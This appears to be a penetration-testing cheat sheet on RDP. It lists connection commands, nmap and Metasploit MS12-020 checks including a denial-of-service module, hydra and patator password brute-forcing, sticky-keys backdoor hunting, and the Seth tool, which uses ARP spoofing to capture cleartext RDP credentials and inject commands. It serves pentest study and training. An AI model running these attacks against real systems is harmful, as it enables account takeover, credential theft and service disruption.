# 🟨 RDP

### <mark style="color:orange;">remote connect</mark>

{% hint style="info" %}
**remember when you access an active RDP session the current user will be kicked off**
{% endhint %}

remote desktop connection from linux

```
rdesktop -u [user] [domain or ip]
xfreerdp /u:"[user]" /v:[ip]:[port]
```

### <mark style="color:orange;">nmap</mark>

```
nmap -Pn -n 127.0.0.1 --script rdp-enum-encryption
nmap -Pn -n 127.0.0.1 --script rdp-ntlm-info
nmap -Pn -n 127.0.0.1 --script rdp-vuln-ms12-020
```

### <mark style="color:orange;">metasploit modules</mark>

```
use auxiliary/scanner/rdp/ms12_020_check
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

### <mark style="color:orange;">rdp-sec-check</mark>

checks which encryption algorithms and authentication methods are used, as well as some other security settings. At the end of the check, rdp-sec-check summarizes the potential security issues of the Remote Desktop Service.

```
sudo cpan
install Encoding::BER
Ctrl+d
wget https://raw.githubusercontent.com/portcullislabs/rdp-sec-check/master/rdp-sec-check.pl
chmod +x rdp-sec-check.pl
./rdp-sec-check.pl --help
```

### <mark style="color:orange;">brute force</mark>

```
patator rdp_login host=192.168.0.101 user=FILE0 password=FILE1 0=user.txt 1=passwords.txt
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102
```

### <mark style="color:orange;">Man-in-the-middle attack on RDP</mark>

Responder is a comprehensive tool for performing a man-in-the-middle attack against Windows authentication methods. Among other rogue servers , the program has an RDP server.

#### for more info refer to [windows authentication hacking](https://miloserdov.org/?p=4055)

### <mark style="color:orange;">Sticky-keys & Utilman</mark>

sticky-keys-hunter is a script for testing RDP hosts on sticky keys and utilman backdoor.

```
sticky-keys-hunter TARGET_IP
```

## <mark style="color:red;">RDP MitM</mark>

{% embed url="https://github.com/SySS-Research/Seth" %}

Seth is a tool written in Python and Bash to MitM RDP connections by attempting to downgrade the connection in order to extract clear text credentials. It was developed to raise awareness and educate about the importance of properly configured RDP connections in the context of pentests, workshops or talks. The author is Adrian Vollmer (SySS GmbH).

```
git clone https://github.com/SySS-Research/Seth.git
cd Seth 
pip install -r requirements.txt

./seth.sh <INTERFACE> <ATTACKER IP> <VICTIM IP> <GATEWAY IP|HOST IP> [<COMMAND>] 
```

{% hint style="info" %}
Note: The last IP address must be that of the gateway, this can only change if the victim’s computer shares a subnet with the RDP host.
{% endhint %}

The last parameter is optional. It can contain a command that is executed on the RDP host by simulating WIN+R via key press event injection. Keystroke injection depends on which keyboard layout the victim is using - currently it's only reliable with the English US layout. I suggest avoiding special characters by using `powershell -enc <STRING>`, where STRING is your UTF-16le and Base64 encoded command. However, `calc` should be pretty universal and gets the job done.

\
The shell script performs ARP spoofing to gain a Man-in-the-Middle position and redirects the traffic such that it runs through an RDP proxy. The proxy can be called separately. This can be useful if you want use Seth in combination with Responder. Use Responder to gain a Man-in-the-Middle position and run Seth at the same time. Run seth.py -h for more information.
